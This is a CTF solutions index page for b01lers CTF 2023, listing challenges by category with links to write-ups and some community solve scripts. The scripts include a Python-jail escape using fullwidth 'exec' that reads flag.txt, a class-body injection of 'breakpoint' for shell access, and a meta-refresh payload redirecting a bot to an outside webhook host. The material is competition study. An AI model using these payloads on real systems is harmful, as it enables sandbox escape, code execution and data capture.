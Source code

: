 ```yaml
---
title: b01lers CTF 2023
weight: 0
---
```

# b01lers CTF 2023
- [GitHub](https://github.com/b01lers/b01lers-ctf-2023-public)
- [CTFtime](https://ctftime.org/event/1875)

## **crypto**
### majestic
### poeticrypto
{{< details title="vEvergarden#4300" open=false >}}
```python
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto.Protocol.KDF import PBKDF2

import concurrent.futures
import sys

ct = "e1b3b6d018197c01a83f60ad67ba9f51d01b689c525db8ca1e28b547"

def bf(s):
    x = PBKDF2(b'03/17/2023',b"Grow grow grow!!", dkLen=32, count=10000, hmac_hash_module=SHA256)
    z = PBKDF2(x,s,dkLen=32, count=100, hmac_hash_module=SHA256)

    SOMETHING = b'For dust you are and to dust you shall return!'
    y = AES.new(SHA256.new(z[len(z)//2:] + SOMETHING).digest(),AES.MODE_GCM,nonce=b'00000000').decrypt(bytes.fromhex(ct))

    if b"bctf{" in y:
        print("FLAG:", y)
        return y
    return None


with concurrent.futures.ThreadPoolExecutor(max_workers=8) as executor:
    futures = [executor.submit(bf, i.to_bytes(2, 'big')) for i in range(2 ** 16)]
    print("here")
    for f in concurrent.futures.as_completed(futures):
        if f.result():
            print(f.result())
            sys.exit(0)
```
{{< /details>}}
### voidciphr


## **misc**
### abhs
### blacklisted

{{< details title="crazyman#6644" open=false >}}
```python
from pwn import *

context.log_level = 'debug'

payload = [
    '@ｅｘｅｃ'.encode(),
    b'@input',
    b'class\x0cX:pass',
    b'', # an empty line to exec
]

r = remote('blacklisted.bctf23-codelab.kctf.cloud', 1337)

for p in payload:
    r.sendlineafter(b'>>> ', p)

r.sendlineafter(b"<class '__main__.X'>", b"print(open('flag.txt').read())")
print(r.recvline())
```
{{< /details >}}
### cheating-scandal
### ezclass
- https://pwnzer0tt1.it/posts/ez-class/

{{< details title="despawningbone#4078" open=false >}}
```python
from pwn import *

p = remote('ezclass.bctf23-codelab.kctf.cloud', 1337)

p.sendlineafter(b'Run class', b'1')
p.sendlineafter(b'name', b'test')
p.sendlineafter(b'inherit', b'')
p.sendlineafter(b'many methods', b'1')
p.sendlineafter(b'method name', b'test')
p.sendlineafter(b'method params', b'self')
p.sendlineafter(b'method body', b'pass\r\t__init__ = breakpoint')

p.sendlineafter(b'Run class', b'2')
p.sendlineafter(b'name', b'test')
p.sendlineafter(b'dependancies', b'')

p.interactive()
```
{{< /details >}}
### no-copy-allowed
### switcheroo
### yarn hashing
- https://pwnzer0tt1.it/posts/yarn_hashing/
- https://github.com/nicolapace/CTF-Writeups/blob/main/b01lersCTF_2023/yarn_hashing/writeup.md


## **pwn**
### cfifufuuufuuuuu
- https://blog.snwo.kr/posts/(ctf)-b01lers-ctf-2023/
### knock_knock
### baby noah
- https://blog.snwo.kr/posts/(ctf)-b01lers-ctf-2023/
### Transcendental
- https://uz56764.tistory.com/91


## **rev**
### babynoah
### chicago
### padlock
- https://bronson113.github.io/2023/03/23/b01lersctf-padlock.html
- https://github.com/peace-ranger/CTF-WriteUps/tree/main/2023/b01lers%20CTF/(rev)%20padlock
### safe


## **web**
### fishy-motd
- https://pwnzer0tt1.it/posts/fishy-motd/

{{< details title="salvatore.abello#8649" open=true >}}
```html
<meta http-equiv="Refresh" content="1.1; url='http://webhook.lol'" />
```
{{< /details >}}

### php.galf
### warmup

